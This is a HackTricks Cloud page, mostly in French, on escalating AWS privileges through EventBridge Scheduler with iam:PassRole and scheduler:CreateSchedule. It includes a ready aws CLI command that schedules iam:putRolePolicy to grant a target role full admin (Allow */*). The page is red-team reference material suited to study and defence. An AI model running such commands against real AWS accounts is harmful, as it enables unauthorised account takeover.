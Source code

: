 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler peut être utilisé pour l'escalade de privilèges en planifiant des appels à divers services AWS. En tirant parti de sa capacité à invoquer des services sur une base planifiée, les utilisateurs disposant de permissions suffisantes peuvent escalader leurs privilèges. Voici quelques-unes des actions clés que l'EventBridge Scheduler peut déclencher en utilisant des cibles modélisées :

* Lambda : lambda:InvokeFunction - Invoquer des fonctions Lambda selon un calendrier.
* CodeBuild : codebuild:StartBuild - Démarrer des projets AWS CodeBuild.
* CodePipeline : codepipeline:StartPipelineExecution - Déclencher des exécutions AWS CodePipeline.
* ECS : ecs:RunTask - Exécuter des tâches ECS.
* EventBridge : events:PutEvents - Mettre des événements dans EventBridge.
* Inspector : inspector:StartAssessmentRun - Démarrer des évaluations Amazon Inspector.
* Kinesis : kinesis:PutRecord - Mettre des enregistrements dans des flux Kinesis.
* Firehose : firehose:PutRecord - Mettre des enregistrements dans des flux de livraison Firehose.
* SageMaker : sagemaker:StartPipelineExecution - Démarrer des exécutions de pipeline SageMaker.
* SNS : sns:Publish - Publier des messages sur des sujets SNS.
* SQS : sqs:SendMessage - Envoyer des messages aux files d'attente SQS.
* Step Functions : states:StartExecution - Démarrer des exécutions des AWS Step Functions.

Ce ne sont là que quelques-unes des actions modélisées que l'EventBridge Scheduler peut effectuer. Cependant, en utilisant des cibles universelles, de nombreuses autres actions à travers les services AWS peuvent être invoquées. Les cibles universelles permettent des opérations API plus étendues au-delà de la liste modélisée.

Plus d'infos sur l'EventBridge Scheduler dans :

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Les utilisateurs disposant des permissions `sts:AssumeRole`, `iam:PassRole`, et `scheduler:CreateSchedule ou scheduler:UpdateSchedule` peuvent escalader leurs privilèges en tirant parti de l'EventBridge Scheduler pour invoquer des services en utilisant un rôle avec des privilèges plus élevés.

Avec ces permissions, un attaquant peut assumer un rôle avec des privilèges élevés et passer ce rôle à l'EventBridge Scheduler lors de la création ou de la mise à jour d'un calendrier. Le calendrier peut être configuré pour effectuer n'importe laquelle des actions listées précédemment, telles que l'invocation de fonctions Lambda, le démarrage de tâches ECS, le déclenchement d'exécutions de CodePipeline, ou toute opération des 270 services AWS pris en charge par l'EventBridge Scheduler. En planifiant ces actions, un attaquant pourrait abuser de privilèges plus élevés pour effectuer des opérations non autorisées à travers les services AWS. \\

Par exemple, ils pourraient configurer le calendrier pour invoquer une fonction Lambda qui est une action modélisée :
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
En plus des actions de service templées, vous pouvez utiliser des cibles universelles dans EventBridge Scheduler pour invoquer un large éventail d'opérations API pour de nombreux services AWS. Les cibles universelles offrent la flexibilité d'invoquer presque n'importe quelle API. Un exemple peut être l'utilisation de cibles universelles ajoutant "AdminAccessPolicy", en utilisant un rôle qui a la politique "putRolePolicy" :
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Références

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
